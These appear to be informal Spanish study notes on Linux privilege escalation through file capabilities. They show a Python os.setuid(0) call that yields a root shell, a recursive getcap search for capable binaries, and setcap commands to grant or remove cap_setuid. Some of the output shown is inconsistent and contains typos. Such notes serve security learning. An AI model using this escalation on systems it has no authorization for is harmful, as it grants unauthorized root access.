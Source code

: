 
```
which python3.9 | xargs ls -l

lrwxrwxrwx 1 root root 9 Jul 28  2021 /usr/bin/python2 -> python2.7

>>import os
>>os.setuid(0)
>>os.system("whoami")
root
0
```

#### supongamos que es asi porque a mi no me funciono

#getcap  Permite listar las capabilities del sistema

`which getcap`

	`/usr/sbin/getcap`

#### podemos buscar en el sistema ficheros de forma recursiva (-r) que tengan capabilities

```
getcap -r / 2>/dev/null 

/usr/bin/ping cap_net_raw=ep
/usr/bin/dumpcap cap_net_admin,cap_net_raw=eip
/usr/bin/nmap cap_net_bind_service,cap_net_admin,cap_net_raw=eip
/usr/bin/fping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin,cap_sys_nice=ep

```

Son "capacidades" que previamente hay que configurar a determinados binarios para poder ejecutar ciertas tareas

*no es un indicativo de que sea vulnerable*

En este caso no tengo pero supongamos que tengo un:

```
`usr/bin/python3.9 cap_setuid=ep
```
Esto es una capabilitie que nos da el poder de modificar nuestra identidad de usuario

#### Para hacerlo ...

```
	#setcat cap_setuid=ep
```

De esta forma le permitimos que se pueda modificar el identificador, el uid

#### pero si se la queres sacar porque no da mas ...

```
setcap -r /usr/bin/python3.9
```

para asegurarte que se la sacaste

```
getcap !$

getcap /usr/bin/python3.9
```

# !$
se refiere al ultimo comando ejecutado


[todas las shells las podes ver en /etc/shells]

